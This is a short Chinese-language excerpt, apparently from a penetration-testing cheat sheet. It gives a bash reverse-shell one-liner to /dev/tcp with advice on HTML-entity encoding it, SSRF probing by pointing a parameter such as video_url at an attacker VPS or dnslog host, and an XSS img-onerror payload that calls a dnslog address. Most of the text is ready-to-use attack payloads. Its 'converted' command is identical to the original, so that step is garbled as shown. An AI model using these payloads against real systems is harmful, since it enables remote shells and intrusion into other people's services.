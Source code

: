 所有的命令都需要注意转换 html 实体编码  
例如原本的反弹命令为

```
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1
```

转换后为

```
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1
```

可以去这里转换：https://www.qqxiuzi.cn/bianma/zifushiti.php

#### **4.SSRF**

我们可以在需要的参数后面直接修改为 vps'ip 或者 dnslog 地址  
如果你使用 vps，那么你依然需要在 vps 上先执行监听端口  
如果你使用 dnslog，那么直接修改为 dnslog 地址  
例如某参数为 video_url，修改为如下

```
video_url=http://vps'ip:port
video_url=dnslog
```

#### **5.XSS**  

使用如下 Payload

```
<IMG SRC=# onerror=http://dnslog/随便输入字母>
```
